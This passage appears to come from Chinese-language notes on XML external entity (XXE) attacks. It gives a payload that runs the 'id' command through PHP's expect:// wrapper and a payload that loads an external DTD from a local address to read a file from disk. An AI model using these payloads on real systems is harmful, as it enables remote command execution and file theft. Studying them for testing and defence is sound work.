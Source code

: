 







#### 玩法-RCE

该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令  **实际应用中很难碰到**

```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

#### 引入外部实体 dtd

```

<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:80/evil2.dtd">
%file;
]>
<x>&send;</x>

```

**evil2.dtd:**

```

<!ENTITY send SYSTEM "file:///d:/test.txt">
```

![](image39/QQ截图20220329205549.png)


